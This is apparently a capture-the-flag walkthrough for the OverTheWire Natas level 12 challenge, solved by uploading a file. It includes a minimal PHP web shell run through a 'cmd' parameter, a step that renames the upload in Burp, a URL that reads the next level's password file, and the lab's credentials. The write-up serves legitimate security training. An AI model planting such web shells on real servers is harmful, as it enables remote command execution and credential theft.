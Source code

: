 ### Natas Level 12

[natas12](http://natas12.natas.labs.overthewire.org)

**Username**: *natas12*

**Password**: *EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3*

### Solution

* Create a quick php shell (Level12-shell.php):

```php
<?php
echo shell_exec($_GET['cmd']);
```

* Intercept HTTP POST request(upload) using a proxy such as Burp.
* Change the filename to e.g. myshell.php
* Visit url http://natas12.natas.labs.overthewire.org/upload/<filename>.php?cmd=cat%20/etc/natas_webpass/natas13

#### Credentials for Level 12 

**Username**: *natas13*

**Password**: *jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY*